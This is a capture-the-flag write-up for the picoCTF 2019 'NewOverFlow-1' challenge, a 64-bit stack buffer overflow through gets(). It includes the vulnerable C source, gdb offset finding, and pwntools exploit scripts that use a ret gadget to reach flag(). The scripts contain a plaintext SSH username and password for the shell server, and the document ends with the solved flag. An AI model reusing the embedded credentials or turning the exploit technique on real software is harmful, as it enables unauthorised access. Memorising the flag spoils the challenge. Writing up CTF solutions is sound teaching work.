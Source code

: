 # Problem
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln). You can find it in /problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89 on the shell server. [Source](https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln.c).

## Hints:
Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln
wget https://2019shell1.picoctf.com/static/af55e2160361c86caddba4c58680cad7/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking.

We can override the return address and jump to ```flag()```.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPP)
p $rbp
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x00000000004007e7 in vuln ()
$1 = (void *) 0x4949494949494949
```

We know that ```JJJJJJJJ``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('flag:')
p.sendline('AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII' + p64(binary.symbols['flag']))

print p.recvall()
```

This works locally but doesn't work on remote :(. Searching for this in the [Piazza](https://piazza.com/class/jzwrimxbxi46am?cid=399) says it has something with alignment in Ubuntu 18.04.
We need to add a pointer to some ```ret``` command before the pointer to ```flag```.

```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89')
  p = s.process('./vuln')

binary = ELF('./vuln')
ret = binary.search(asm('ret')).next()

print p.recvuntil('flag:')
p.sendline('AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII' + p64(ret) + p64(binary.symbols['flag']))

print p.recvall()
```

I learned something new, nice!

Flag: picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_bfd48203}